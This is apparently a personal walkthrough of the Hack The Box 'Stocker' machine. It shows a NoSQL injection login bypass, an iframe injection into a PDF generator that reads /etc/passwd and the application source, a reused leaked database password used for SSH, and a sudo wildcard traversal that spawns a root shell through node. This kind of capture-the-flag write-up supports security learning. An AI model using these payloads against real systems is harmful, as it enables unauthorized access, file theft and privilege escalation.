 # Stocker Helped-Through

Name: Stocker
Date:  25/06/2023
Difficulty: Easy  
Goals:  
- Learn some JS iframe coding
- Request smuggling broader than just json, I know of but have not done a HTTP request smuggle 
- Revise nosql injections
Learnt:
Beyond Root:
- Write a malicious iframe for a project

Both.. 
- [[Stocker-Notes.md]]
- [[Stocker-CMD-by-CMDs.md]]
..Will  be empty as this is a quick a Helped-Through as it needs to be to get the box done as a gateway to learning and writing Javascript especially Iframes. I do not have a web background, but I do enjoy web exploitation as part of a mix diet of exploits. I will be following along with [Ippsec](https://www.youtube.com/watch?v=fWMHh8GYqJE) as I saw during my lunch break today and thought how I have never manipulated iframes or made web application code; and I have no done a nosql injection in a while. Or done request smuggling through json.

<iframe width="560" height="315" src="https://www.youtube.com/embed/fWMHh8GYqJE" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

## Recon

Nothing from ping.
![ping](Screenshots/ping.png)
I rreran a nmap scan for [ubuntu bionic](https://launchpad.net/ubuntu/+source/openssh/1:7.6p1-4ubuntu0.5) from dorking `lauchpad 4ubuntu0.5`

`nikto` output a redirect to stocker.htb and nuclei found [[nginx-version-http___stocker.htb_]] running. `ffuf` for vhosts with 

```bash
ffuf -u http://stocker.htb -H "Host: FUZZ.stocker.htb" -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ --mc all -fw 6
```

As shown:
![](ffuffindsdev.png)

Adding dev.stocker.htb to hosts file 
![](signinatdev.png)

## Exploit

![](demoingnosqlifail.png)

Because this Node.js (as it has libraries and frameworks for handling JSON ) *and web applications commonly use json to handle requests* convert  `Content-Type: application/x-www-form-urlencoded` to `Content-Type: application/json` . 

```json
username[$ne]=ippsec&password[$ne]=password
// Convert to
{
"username":"ippsec", 
"password":"password" 
}
```

With all attacks that involve JSON or backend that can handle JSON you should always send broken JSON for the error message.

![](nodeerrorfromjson.png)

And the full error message:
```js
SyntaxError: Unexpected end of JSON input<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at parse (/var/www/dev/node_modules/body-parser/lib/types/json.js:89:19)<br> &nbsp; &nbsp;at /var/www/dev/node_modules/body-parser/lib/read.js:128:18<br> &nbsp; &nbsp;at AsyncResource.runInAsyncScope (node:async_hooks:203:9)<br> &nbsp; &nbsp;at invokeCallback (/var/www/dev/node_modules/raw-body/index.js:231:16)<br> &nbsp; &nbsp;at done (/var/www/dev/node_modules/raw-body/index.js:220:7)<br> &nbsp; &nbsp;at IncomingMessage.onEnd (/var/www/dev/node_modules/raw-body/index.js:280:7)<br> &nbsp; &nbsp;at IncomingMessage.emit (node:events:513:28)<br> &nbsp; &nbsp;at endReadableNT (node:internal/streams/readable:1359:12)<br> &nbsp; &nbsp;at process.processTicksAndRejections (node:internal/process/task_queues:82:21)</pre>
```

This confirms it is accepting JSON object
- Leaks /var/www/dev

Given that this is more just structured data conversion I think the best thing to do is just to call this Content-type-conversion until I have found a similar techniques as all that will be returned when searching for this would be HTTP request smuggling. [Burpplugin](https://portswigger.net/bappstore/db57ecbe2cb7446292a94aa6181c9278)
```json
{
"username":{
"$ne":"user"}, 
"password":{
"$ne":"passwd"}
}
```

We can then change the request to:
![](nestedjson.png)

A very expensive bin.
![](buythestock.png)

## Foothold

Lets buy a bin.
![](addabin.png)

Review our purchase 
![](presscart.png)

Purchase ID
![](purchaseid.png)

```
64988ad6f286ddc6c0375d05
```

Click on here
![](pdfdemo.png)

Add an axe and purchase another bin to make wheelie-bin-chariot of violence. 
![](addanaxe.png)

![](binandaxeid.png)

Comparing the ids they are really similar, this is not md5 or a hash
```
64988ba3f286ddc6c0375d0a
64988ad6f286ddc6c0375d05
same - changed - same - changed
64988 ba3f286 ddc6c0375d 0a
64988 ad6f286 ddc6c0375d 05
```

PDF?
- `exiftool`
- vulnerable, exploits? - check it manual as below or dork
- html injectable? 

Check for exploit with `Skia/PDF m108 exploit` and the part of this box that got excited to try this was, because it is chromium put an iframe in it. 
![](skia.png)

Firstly the intial request:
![](initialreqforhtlminject.png)

```json
{
// Pick a field that will be displayed in the html
"title":"Bin<iframe src='file:///etc/passwd'></iframe>",
},
```

And proof:
![](passwdpoc.png)

We can add stuff to this to improve this skip to the beyond root section where I add some features  
```js
<iframe src='file:///etc/passwd' height='1000' width='1000'></iframe>

<iframe src='file:///var/www/dev/index.js' height='1000' width='1000'></iframe>
```

![](passwdindev.png)

```js
// TODO: Configure loading from dotenv for production
const db = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```

angoose user has reused the `IHeardPassphrasesArePrettySecure` password so ssh in!
![](wearetheangoose.png)

## PrivEsc

The scripts that can run as sudo: 
![](scripts.png)

Because of the wild card we can directory traversal as \* being anything can be: 
```bash
sudo /usr/bin/node /usr/local/scripts/../../../dev/shm/ippsec.js
```

[node shell gtfobins](https://gtfobins.github.io/gtfobins/node/#shell)
```js
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```

And root
![](root.png)

## Beyond Root

Iframe research

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp
https://www.invicti.com/blog/web-security/frame-injection-attacks/
https://owasp.org/www-community/attacks/Clickjacking
https://portswigger.net/web-security/clickjacking
https://blog.logrocket.com/the-ultimate-guide-to-iframes/

html injection
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/03-Testing_for_HTML_Injection
https://www.invicti.com/learn/html-injection/
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection

- Make a malicious PDF 
- Malicious Web pages 

[regex in sudoers file](https://www.youtube.com/watch?v=fWMHh8GYqJE)

[read 0xdf](https://0xdf.gitlab.io/2023/06/24/htb-stocker.html)